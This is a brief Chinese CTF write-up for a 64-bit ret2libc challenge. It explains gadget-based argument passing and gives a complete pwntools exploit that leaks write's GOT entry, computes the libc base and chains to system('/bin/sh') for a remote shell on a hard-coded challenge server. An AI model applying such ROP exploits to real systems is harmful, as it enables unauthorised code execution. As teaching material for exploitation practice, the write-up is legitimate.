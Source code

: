 + 这道题是一道 `ret2libc` 的入门题，但最重要一点是这个题目是 **64位程序** 。所以不能将参数布置在栈里面，而要找 `gadget` 然后将参数弹到 `rdi, rsi, rdx` 中。这道题可以找到控制 `rdi` 和 `rsi` 的 `gadget` ，但是不能找到控制 `rdx` 的 `gadget` 。不过没有关系因为这道题目 `write` 函数的第三个参数是字节数，只要 `rdx` 中的值大于 **8** ，就可以达到目的。这道题目可以做到。

  ![image-20201022201911448](https://cdn.jsdelivr.net/gh/smallzhong/picgo-pic-bed/image-20201022201911448.png)

  ```python3
  #!/usr/python3
  #coding:utf-8
  
  from pwn import *
  
  context.arch = "amd64"
  # context.log_level = "debug"
  
  io = connect("81.69.0.47", 1122)
  
  libc = ELF("./libc")
  
  elf = ELF("./pwn111")
  
  # 因为write已经执行过一次，所以其got表里面存放的是其libc的地址
  write_got = elf.got["write"]
  
  # write的plt
  write_plt_addr = elf.plt["write"]
  
  # 泄露libc之后回到main再执行一次
  main_addr = elf.symbols["main"]
  
  # 64位程序，参数在rdi,rsi,rdx,rcx,r8,r9中，要找gadget
  pop_rdi_ret = 0x401233
  pop_rsi_pop_r15_ret = 0x401231
  
  # 参数从右往左入栈
  payload = flat([cyclic(0x88), pop_rdi_ret, 1, pop_rsi_pop_r15_ret, write_got, 0xdeadbeef,write_plt_addr, main_addr])
  
  io.sendlineafter("please input: ", payload)
  
  write_addr = u64(io.recv(8))
  
  success("write_addr = 0x%x\n", write_addr)
  
  # 获取libc偏移
  libc_offset = write_addr - libc.symbols["write"]
  
  # 得到system在libc中的地址
  system_addr = libc_offset + libc.symbols["system"]
  
  # 构造第二个payload
  payload = flat([cyclic(0x88), pop_rdi_ret, next(libc.search(b"/bin/sh")) + libc_offset, system_addr])
  
  io.sendlineafter("input: ", payload)
  
  io.interactive()
  ```

  